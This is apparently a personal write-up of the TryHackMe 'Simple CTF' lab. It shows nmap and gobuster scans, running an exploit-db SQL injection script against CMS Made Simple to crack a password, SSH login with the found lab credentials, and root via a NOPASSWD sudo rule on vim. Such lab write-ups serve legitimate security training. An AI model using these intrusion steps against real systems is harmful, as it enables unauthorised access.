 ```yaml
---
title: "Simple CTF TryHackMe"
date: "07-22-2021"
author: "Reda BELHAJ"
summary: "Simple CTF is a beginner level boot2root room from TryHackme made by Mr.Seth6797."
tags: ["Tryhackme", "Ctf", "Writeup"]
image: "/images/Simple/Simple.png"
---
```


## Enumeration
### Nmap Scan
The first step of my enumeration was a scan with **nmap**. by the command:

```
nmap 10.10.198.35 -sC 
```

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-22 13:14 EDT
Nmap scan report for 10.10.198.35
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE
21/tcp   open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.174.180
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  EtherNetIP-1
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)

Nmap done: 1 IP address (1 host up) scanned in 40.71 seconds

```

The “Nmap Output” displayed `2` services running under port 1000 and ssh service running on the higher port.

### Gobuster Scan
I next decided to run a gobuster scan on the webserver to see if there were any interesting hidden directories, by the command:

```
gobuster dir -u http://10.10.198.35  -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,xml,php
```

![Gobuster](/images/Simple/gobuster.jpg)

## Exploring 

Browsing to ***http://10.10.198.35/simple*** gives us the version of CMS Made Simple:

![Version](/images/Simple/version.jpg)

I then searched for the cve on [exploit-db](https://www.exploit-db.com/exploits/46635) and found the cve with the exploit:

![CVE](/images/Simple/cve.jpg)

## Exploiting

Then I run the exploit using python (version 2.7) inside a virtual environment:

```
python cms_pa.py -u http://10.10.198.35/simple/ -c -w rockyou.txt
```

![Password](/images/Simple/password.jpg)

## User Flag

And now I tried to access SSH with the credentials that We found:

```
mitch@secret
```

```
ssh -p 2222 mitch@10.10.198.35
```
Let's check the current dir for a flag:

```
G00d *************
```

## Root Flag

So now I tried the infamous `sudo -l` comand to privilege escalate the system

```
sudo -l
```
And i found that **mitch** can run vim with root privileges with ***NOPASSWD***

```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

So I checked [GTFObins](https://gtfobins.github.io/gtfobins/vim/#suid) so that I spawn a bash shell as root.

![SUID](/images/Simple/suid.jpg)

And now we're root, Let's check the root dir for a flag:

```
W3ll d*****************
```